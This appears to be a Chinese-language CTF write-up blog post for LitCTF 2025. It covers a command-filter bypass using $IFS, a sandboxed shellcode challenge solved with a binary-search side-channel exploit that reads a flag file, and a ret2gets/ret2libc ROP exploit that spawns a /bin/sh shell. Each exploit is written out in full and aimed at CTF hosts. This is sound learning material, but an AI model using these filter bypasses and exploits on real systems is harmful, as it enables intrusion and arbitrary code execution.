



+++
date = '2025-06-08T16:16:17+08:00'
draft = false
title = 'Litctf'

+++

## test_your_nc



这里我们查看到他对blacklist他有一个绕过一些字符因此我们要使用的方式绕过方式是

```tex
c'at'$IFS$9flag
```


可以得到flag

## shellcode


从这里可以看到这里存在一个shellcode的一个执行方式并且开启了一个sandbox因此我们要查看一下



这里我们可以看到他不能让我使用输出函数因此我们只能使用侧信道爆破因此我们给出exp

```py
from pwn import *
context(arch='amd64',os='linux')
io=0
def find(i, c):
        global io
        io=remote("node6.anna.nssctf.cn",28831)
        #io=process('./pwn')
        io.recvuntil(b'Please input your shellcode: \n')
        sc=asm("""
        mov rax, 0
        movabs rax, 0x67616C66
        push 0
        push rax
        push rsp
        pop rdi
        xor rsi, rsi
        xor rdx, rdx
        mov rax, 2
        syscall 
        mov rsi, rdi
        mov rdi, rax
        xor rax, rax
        mov rdx, 0x100
        syscall 
        mov al, [rsp+{}]
        cmp al, {}
        jbe $
        """.format(i, c))
        io.send(sc)

        try:
                io.recv(timeout=3)
                io.close()
                return True
        except EOFError:
                io.close()
                return False

flag = ''
i=6
while True:
        l = 0x20
        r = 0x80
        while l <= r:
                m = (l + r) // 2
                if find(i, m):
                        r = m - 1
                else:
                        l = m + 1

        if l==0:
                break
        print(l)
        flag += chr(l)
        info("win!!!!!!!!!!!!!!!!!!!!!!!!! ")
        info(flag)
        i += 1

info("flag: "+flag)
#{66dce309-040b-46ba-bd0d-4dd30503cb78}
```

## master_of_rop(复现)



这里我们参看打是一个2.39的一个版本因此我们发现这个攻击手法可以使用ret2gets的方式进行要给攻击因此[ret2gets 一种控制rdi的攻击方法-CSDN博客](https://blog.csdn.net/2502_91269216/article/details/148261096?spm=1001.2014.3001.5501)我们可以查看这个博客，后面我也会更新我对这个的理解

这里其实就是一个ret2libc+ret2gets的一个泄露，主要是用到了ret2gets的要给leak libc的方式因此我们这里直接上exp

```py
from pwn import *
context(os='linux', arch='amd64', log_level='debug')

p = remote('node6.anna.nssctf.cn', 27574)
# p = process('./pwn1')
elf = ELF('/home/fofa/master_of_rop/pwn')
libc = ELF('/home/fofa/master_of_rop/libc.so.6')

gets_plt = elf.plt['gets']
puts_plt = elf.plt['puts']
main = 0x4011AD

def debug():
	attach(p, 'b *0x4011D9')

# debug()
p.recvuntil("Welcome to LitCTF2025!\n")
payload = b'a'*0x28 + p64(gets_plt) + p64(gets_plt)
payload += p64(puts_plt) + p64(main)
p.sendline(payload)

p.sendline(p32(0) + b"AAAA" + b"AAAAAAAA")
p.sendline(b"AAAA")
p.recv(8)
libc_base = u64(p.recv(6).ljust(8, b'\x00')) + 0x28c0
success('libc_base:' + hex(libc_base))

pop_rdi = libc_base + 0x10f75b
system = libc_base + libc.sym['system']
binsh = libc_base + next(libc.search('/bin/sh\x00'))

p.recvuntil("Welcome to LitCTF2025!\n")
payload = b'a'*0x28 + p64(pop_rdi) + p64(binsh)
payload += p64(0x40101a) + p64(system)
p.sendline(payload)

p.interactive()
#NSSCTF{16f1f6e5-41d8-428b-95ab-0b2a40ecfae1}
```

